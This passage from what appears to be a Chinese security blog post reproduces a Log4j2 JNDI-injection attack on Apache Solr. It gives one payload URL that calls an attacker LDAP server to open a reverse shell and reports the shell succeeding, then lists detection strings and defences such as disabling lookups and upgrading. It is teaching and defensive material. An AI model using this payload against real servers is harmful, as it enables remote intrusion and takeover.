 我这里就使用ldap协议进行演示反弹shell了，payload如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaYF6PFtPe8z7NQRVSXDzxszs0ib3BMW4Df6k6dHNYLvQGewUkBL8vm4w/640?wx_fmt=png&from=appmsg "")  
```
http://192.168.103.161:8983/solr/admin/cores?action=${jndi:ldap://192.168.103.129:1389/a1syrh}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOa9P0EWITtGG17xibjS4Z9UhVcdPibGOoSDVhLibib21WW4GBUpkXBOqo6ibA/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到我们的反弹shell执行成功了，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOawMicLiaJHtrF5zPwMXaYLKYsfFRichlAk6eRGuv2pEmNREMBoKHJeBsbg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOajcDRcmiasFjdSKBH0PiaBdsz4KAuDPJA2vUdauY3tBk5oONnqEsMrk8A/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 总结**  
##   
### 如何排查log4j2漏洞？  
  
检查日志中是否存在"jndi:ldap://"、"jndi:rmi//"等字符来发现可能的攻击行为，前面复现的过程在payload的构造中都出现了这样的字符串，这是攻击的典型标志。  
  
其中像现在的话很多人不会直接利用rmi和ldap服务去检测攻击你的服务器，而是直接调用外面开始利用DNSlog检测，因为利用rmi和ldap会直接暴露自己的服务器的IP地址，所以对于"dns://"也要进行检测判断是否是攻击行为  
  
### 如何对log4j2的攻击进行防御？  
  
1.设置log4j2.formatMsgNoLookups=True。相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点。  
  
2.对包含有"jndi:ldap://"、"jndi:rmi//"、"dns://"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入。  
  
3.对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等。  
  
4.升级log4j2组件到新的安全的版本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOavbCItTBHFUgothJSribpUyNvZTdXU1d7wmmibmO9iaNXZGX3Id7Rl3IVg/640?wx_fmt=png&from=appmsg "")  
  
  
  
我们是神农安全，  
**点赞 + 在看**  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  